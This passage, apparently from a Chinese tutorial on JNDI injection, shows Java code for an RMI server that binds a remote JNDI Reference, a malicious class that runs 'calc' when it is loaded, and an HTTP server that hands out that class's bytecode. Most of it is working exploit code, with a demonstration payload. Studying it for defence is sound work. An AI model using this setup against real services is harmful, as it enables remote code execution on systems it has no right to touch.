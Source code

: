 ```java
        Reference reference = new Reference("Exploit", "Exploit", factoryLocation);
        // 将 JNDI引用 包装为 RMI 可注册的类
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        // 将类信息注册到 Registry
        registry.bind("Exploit", referenceWrapper);
        System.out.println("[*] RMI server listening on: 0.0.0.0:" + rmiServerPort);
    }
}
```

可以看到我们创建 Registry 之后并没有 `export` 某一对象，是创建了一个 JNDI 的 Reference，目的是为了让 JNDI 去加载位于此处的类文件。

既然我们指定了类文件的存放地址是一个HTTP地址，那我们生成一个类，并且将其存放到这个HTTP服务下。

恶意类，简单起见不要添加包名称。

```java
import java.io.IOException;

public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

HTTP服务，这里我为了方便使用了 sun 公司内置在 jdk 中的一个http server，也可以使用 nginx、apache、tomcat 等web服务器，只需要将编译后的 `Exploit.class` 放到根目录下即可。

```java
import com.sun.net.httpserver.HttpServer;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;

import java.io.IOException;
import java.io.OutputStream;
import java.net.InetSocketAddress;

public class WebServer {
    private static final Integer port = 80;

    public static void main(String[] args) throws IOException, NotFoundException, CannotCompileException {

        // 使用 javassist 获取类字节
        ClassPool classPool = ClassPool.getDefault();
        final CtClass ctClass = classPool.get(Exploit.class.getName());
        // 修改类的名称，这里是为了去除类的包名，与 RMI Server 中保持一致
        ctClass.setName("Exploit");
        final byte[] bytes = ctClass.toBytecode();

        HttpServer server = HttpServer.create(new InetSocketAddress(port), 0);
        server.createContext("/", httpExchange -> {
            // 将类的字节写入到 response 中
            System.out.println("Req Begin...");
            httpExchange.sendResponseHeaders(200, bytes.length);
            final OutputStream responseBody = httpExchange.getResponseBody();
            responseBody.write(bytes);
            responseBody.close();
            System.out.println("Req End.");
```